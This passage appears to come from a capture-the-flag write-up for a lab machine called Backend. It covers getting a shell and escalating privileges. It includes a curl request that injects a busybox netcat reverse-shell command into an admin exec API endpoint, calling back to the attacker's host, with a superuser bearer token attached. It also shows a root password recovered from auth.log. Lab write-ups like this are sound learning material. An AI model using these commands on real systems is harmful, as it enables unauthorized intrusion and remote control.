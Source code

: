 I used busybox to get the shell, the payload was

![Untitled](Backend%20ff0d31201c34493aba5b9ca54b416ff2/Untitled%2029.png)

Open a nc listener

`nc -lvnp 4444`

Then i just URL encode the payload and run it

`curl -X 'GET' 'http://10.10.11.161/api/v1/admin/exec/busybox nc 10.10.14.20 4444 -e sh' -H 'accept: application/json' -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNzA5OTk2NzU0LCJpYXQiOjE3MDkzMDU1NTQsInN1YiI6IjIiLCJpc19zdXBlcnVzZXIiOnRydWUsImd1aWQiOiIzNmMyZTk0YS00MjcxLTQyNTktOTNiZi1jOTZhZDU5NDgyODQiLCJkZWJ1ZyI6dHJ1ZX0.7c-P9jhcFF-B-dsv0YZLZm4_YdhsgK9pMtbCHlt1QKQ'`

![Untitled](Backend%20ff0d31201c34493aba5b9ca54b416ff2/Untitled%2030.png)

## Privilege Escalation

Found new user/password at `auth.log`

![Untitled](Backend%20ff0d31201c34493aba5b9ca54b416ff2/Untitled%2031.png)

`su -` and use that password to login

![Untitled](Backend%20ff0d31201c34493aba5b9ca54b416ff2/Untitled%2032.png)

Root flag

![Untitled](Backend%20ff0d31201c34493aba5b9ca54b416ff2/Untitled%2033.png)
